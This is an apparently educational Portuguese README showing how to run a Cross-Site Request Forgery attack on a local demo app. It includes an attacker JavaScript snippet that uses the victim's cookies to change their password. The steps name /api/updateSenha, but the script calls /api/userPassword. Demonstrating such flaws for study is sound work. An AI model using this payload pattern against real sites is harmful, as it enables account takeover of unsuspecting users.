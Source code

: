 # COMO RODAR AS VULNERABILIDADES


## Cross-Site Request Forgery (CSRF)

1 - Necessário fazer login da pagina original

https://github.com/user-attachments/assets/c6f8c93f-76e1-4d5b-81af-a89eb2277225

2 - Após o usuário realizar o login no site oficial, os cookies de autenticação são armazenados no navegador. Esses cookies podem ser aproveitados por outra página web para enviar uma solicitação maliciosa, como, por exemplo, para a rota localhost:5000/api/updateSenha.


https://github.com/user-attachments/assets/af4c2424-6f6b-4a90-bf39-9a448ca09916

3 - Dessa forma, o cookie do usuário autenticado é enviado ao servidor na solicitação, permitindo que um atacante altere a senha do usuário de maneira maliciosa, explorando a ausência de proteções adequadas, como validação de tokens CSRF.

Exemplo do script do atacante:
```js
      const hackerAlteraSenha = async () => {
        fetch("http://localhost:5000/api/userPassword", {
          method: "PUT",
          credentials: "include",
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify({
            novaSenha: "senhahackeada",
          }),
        })
          .then((res) => {
            if (!res.ok) {
              return res.json().then((data) => {
                throw new Error(data.message || "Erro desconhecido");
              });
            }
            return res.json();
          })
          .then((data) => {
            if (data.success) {
              console.log({ data });

              alert("Senha alterada, faca login novamente!");
            }
          })
          .catch((error) => {
            console.error("Erro:", error.message);
          });
      };
```
4 - Conclusão, no banco de dados a senha do usuário foi alterada.

![image](https://github.com/user-attachments/assets/5cb42999-9207-4030-8a84-5be76804a93d)

